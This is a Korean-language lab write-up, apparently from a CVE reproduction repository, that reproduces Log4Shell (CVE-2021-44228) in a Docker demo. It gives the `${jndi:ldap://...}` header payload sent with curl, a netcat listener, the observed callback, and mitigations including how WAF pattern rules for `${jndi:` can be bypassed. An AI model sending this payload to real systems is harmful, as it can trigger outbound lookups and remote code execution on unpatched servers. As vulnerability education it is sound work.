



# CVE-2021-44228 — Apache Log4j2 JNDI Injection (Log4Shell)

- Contributor: [@susan0606](https://github.com/susan0606)
- CVSS: 10.0 (Critical)
- 영향 버전: log4j-core 2.0-beta9 ~ 2.14.1

---

## 1. 취약점 요약

Log4j2는 Java 진영에서 사실상 표준처럼 쓰이는 로깅 라이브러리다. 그런데 2.0-beta9부터 2.14.1까지의 버전에는 로그로 남기는 문자열 안에 `${jndi:...}` 같은 표현식이 들어있으면, 이걸 그냥 텍스트로 찍는 게 아니라 실제로 해석해서 JNDI(Java Naming and Directory Interface)를 통해 외부 서버에 조회를 날려버리는 기능이 기본값으로 켜져 있었다.

문제는 이 로그 메시지 안에 사용자가 직접 입력한 값이 그대로 들어가는 경우가 실무에서 정말 많다는 점이다. HTTP 헤더, 로그인 아이디, User-Agent 같은 값을 별생각 없이 로그로 남기는 코드가 흔한데, 공격자가 그 필드에 JNDI Lookup 문자열을 넣어 보내면 서버가 공격자가 지정한 주소로 실제 네트워크 요청을 보내게 된다. 여기서 반환되는 Java 클래스를 그대로 로드해서 실행하는 것까지 이어지면 원격 코드 실행(RCE)으로 연결될 수 있다.

인증이 아예 필요 없고, 로그를 남기는 지점이라면 어디든 공격 표면이 될 수 있어서 공개 직후 전 세계 서비스가 광범위하게 영향을 받았던, 몇 년에 한 번 나올까 말까 한 수준의 취약점이다.

## 2. 환경 구성

```
CVE-2021-44228/
├── Dockerfile
├── docker-compose.yml
├── app/
│   ├── App.java       # 취약한 데모 애플리케이션
│   └── log4j2.xml      # 로깅 설정
└── README.md
```

Base 이미지는 `eclipse-temurin:8-jdk-jammy`를 썼다. 원래는 `openjdk:8-jdk-slim`으로 시작했는데, Docker Hub에서 해당 태그가 더 이상 유지보수되지 않아 빌드 단계에서 이미지를 못 찾는 문제가 있었다. 지금은 OpenJDK 후속 프로젝트인 Eclipse Temurin이 사실상 표준처럼 쓰이길래 이걸로 교체했다.

취약 라이브러리(`log4j-core-2.14.1.jar`, `log4j-api-2.14.1.jar`)는 Maven Central 공식 배포본을 Dockerfile 빌드 시점에 직접 받아오도록 했다. 애플리케이션 자체는 포트 8080에서 요청을 받고, `X-Api-Version` 헤더 값을 검증 없이 그대로 로깅하는 최소한의 HTTP 서버다(`App.java`).

### 실행 방법

```bash
docker compose up --build
```

정상적으로 뜨면 아래 로그가 출력된다.

```
[*] Vulnerable app started on port 8080 (CVE-2021-44228 demo)
```

## 3. 취약 조건

- log4j-core 버전이 2.0-beta9 ~ 2.14.1 범위여야 한다.
- 애플리케이션이 사용자가 통제할 수 있는 입력값을 로그 메시지에 그대로 넣어야 한다. 이번 환경에서는 `X-Api-Version` 헤더가 그 지점이다.
- 실제로 완전한 RCE까지 이어지려면 JVM이 원격 클래스 로딩을 막는 옵션(JDK 8u191+ 기본 적용) 없이 오래된 JDK로 동작하거나, 외부 LDAP/RMI 트래픽을 막지 않는 네트워크 환경이어야 한다. 다만 JNDI 조회 시도 자체는 최신 JDK에서도 그대로 발생한다는 걸 이번 테스트에서 직접 확인했다.

## 4. 재현 절차

### 4-1. 사전 준비

취약한 애플리케이션 컨테이너를 띄운다.

```bash
docker compose up --build
```

### 4-2. 공격 확인용 리스너 준비

공격자가 지정한 주소로 실제 연결 시도가 들어오는지 확인하기 위해, 호스트에서 간단한 TCP 리스너를 대기시킨다.

```bash
nc -lvnp 1389
```

여기서 한 가지 삽질한 부분이 있는데, 컨테이너 안에서 `127.0.0.1`은 호스트가 아니라 컨테이너 자기 자신을 가리킨다. 그래서 처음에 `${jndi:ldap://127.0.0.1:1389/a}`로 시도했을 땐 `Connection refused`만 떴다. `docker-compose.yml`에 아래처럼 `extra_hosts`를 추가하고, 이후 요청에서는 `host.docker.internal`을 쓰니 해결됐다.

```yaml
extra_hosts:
  - "host.docker.internal:host-gateway"
```

### 4-3. 악성 페이로드가 담긴 요청 전송

애플리케이션이 그대로 로깅하는 `X-Api-Version` 헤더에 JNDI Lookup 문자열을 넣어 요청한다.

```bash
curl -H 'X-Api-Version: ${jndi:ldap://host.docker.internal:1389/a}' http://localhost:8080/
```

### 4-4. 결과 확인

- 리스너 쪽에 컨테이너로부터의 접속이 실제로 들어왔다 (`Connection received on 172.18.0.2 43748`).
- 애플리케이션 로그에는 페이로드 문자열이 그대로 찍혔고, `org.apache.logging.log4j.core.lookup.JndiLookup`이 해당 주소로 실제 조회를 시도하는 스택 트레이스가 함께 출력됐다.

정리하면, 사용자가 입력한 값이 애플리케이션 로그에 그대로 포함될 경우 log4j가 이를 검증 없이 JNDI Lookup 표현식으로 해석해서 외부로 실제 네트워크 요청을 발생시킨다는 취약 동작을, 완전한 RCE까지는 아니어도 트리거 단계까지는 직접 재현했다.

## 5. PoC 코드

리스너 (호스트):
```bash
nc -lvnp 1389
```

공격 요청:
```bash
curl -H 'X-Api-Version: ${jndi:ldap://host.docker.internal:1389/a}' http://localhost:8080/
```

## 6. 실행 결과

**리스너 측 — 컨테이너로부터 실제 접속 수신**



**공격 요청 전송**



**애플리케이션 로그 — 페이로드가 그대로 기록되고 JNDI Lookup이 실제로 시도됨**



## 7. 대응 방안

- log4j 2.17.1 이상으로 업그레이드한다. 이 버전부터는 JNDI Lookup 기능이 기본적으로 꺼져 있다.
- 즉시 패치가 어렵다면 임시로 시스템 프로퍼티 `log4j2.formatMsgNoLookups=true`를 설정하거나, classpath에서 `JndiLookup` 클래스를 제거하는 방식으로 완화할 수 있다.
- 내부 서버에서 불필요한 아웃바운드 LDAP/RMI 트래픽을 방화벽/프록시에서 차단한다.
- WAF로 `${jndi:` 패턴을 탐지하는 방식은 대소문자 변형이나 인코딩으로 우회가 가능해서, 근본 대책이 아니라 임시 방어 수단 정도로만 활용해야 한다.
- 애초에 사용자 입력값을 검증/이스케이프 없이 로그에 그대로 넣지 않도록 애플리케이션을 설계하는 게 근본적인 예방책이다.
